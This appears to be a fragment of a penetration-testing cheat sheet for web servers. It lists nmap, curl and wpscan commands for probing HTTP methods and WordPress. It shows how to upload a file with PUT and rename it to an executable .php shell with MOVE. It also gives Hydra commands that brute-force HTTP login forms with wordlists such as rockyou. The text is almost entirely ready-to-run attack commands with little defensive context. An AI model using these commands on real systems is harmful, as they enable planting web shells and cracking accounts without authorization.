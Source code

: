 OPTIONS

nmap --script http-methods --script-args http-methods.url-path=**'/test'** x.x.x.x
curl -vX OPTIONS x.x.x.x/abc

Wordpress

wpscan –url x.x.x.x/blog $ip:3129


You can also upload a file using the PUT method with the curl command:

curl -T **'leetshellz.txt'** **'http://$ip'**

And rename it to an executable file using the MOVE method with the curl command:

curl -X MOVE --header **'Destination:http://$ip/leetshellz.php'** **'http://$ip/leetshellz.txt'**





Hydra Password Bruteforce

    hydra 192.168.1.69 http-form-post "/w3af/bruteforce/form_login/dataReceptor.php:user=^USER^&pass=^PASS^:Bad login" -L users.txt -P pass.txt -t 10 -w 30 -o hydra-http-post-attack.txt




​    
Explanation:

    Host = 192.168.1.69
    Method = http-form-post
    URL = /w3af/bruteforce/form_login/dataReceptor.php
    Form parameters = user=^USER^&pass=^PASS^
    Failure response = Bad login
    Users file = users.txt
    Password file = pass.txt
    Threads = -t 10
    Wait for timeout = -w 30
    Output file = -o hydra-http-post-attack.txt


Other example

	hydra 111.11.111.11 http-form-post "/:password=^PASS^:Invalid" -P /usr/share/wordlists/rockyou.txt -l user -t 10 -s 42616 -v

This attacks the ip address on port 42616
